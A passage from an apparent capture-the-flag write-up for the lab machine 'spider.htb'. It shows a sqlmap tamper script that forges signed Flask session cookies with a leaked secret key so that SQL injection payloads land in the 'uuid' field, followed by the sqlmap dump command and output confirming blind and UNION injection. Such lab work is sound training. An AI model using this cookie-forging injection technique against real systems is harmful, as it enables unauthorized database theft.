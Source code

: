 Sqlmap won't work out of the box against this type of SQLI, so we have to write a short tamper script ourselves to pass the payload to the `uuid` parameter and sign the cookie. For this to work we also have to create an empty `__init__.py` in the same directory as the tamper script wich doesn't have to contain anything but need's to exist prior to running sqlmap.

`tamper.py`
```py
#!/usr/bin/env/python
from flask_unsign import session as ses

def tamper(payload, **kwargs):
    session = ses.sign({'cart_items': [], 'uuid' : payload}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')
    return session
```

```js
$ touch __init__.py
```

With all preparations met we can now run sqlmap and dump the database of the application.

```js
$ sqlmap http://spider.htb/ --tamper tamper.py --delay 1 --cookie="session=*" --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not re
sponsible for any misuse or damage caused by this program

[*] starting @ 12:01:16 /2021-05-30/

[12:01:16] [INFO] loading tamper module 'tamper'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] y
[12:01:19] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:01:19] [WARNING] provided value for parameter 'session' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:01:19] [INFO] testing connection to the target URL
[12:01:20] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
[12:01:23] [INFO] target URL content is stable
[12:01:23] [INFO] testing if (custom) HEADER parameter 'Cookie #1*' is dynamic
do you want to URL encode cookie values (implementation specific)? [Y/n] n

...[snip]...

[12:02:37] [INFO] (custom) HEADER parameter 'Cookie #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[12:02:44] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:02:45] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:03:10] [INFO] target URL appears to be UNION injectable with 1 columns
```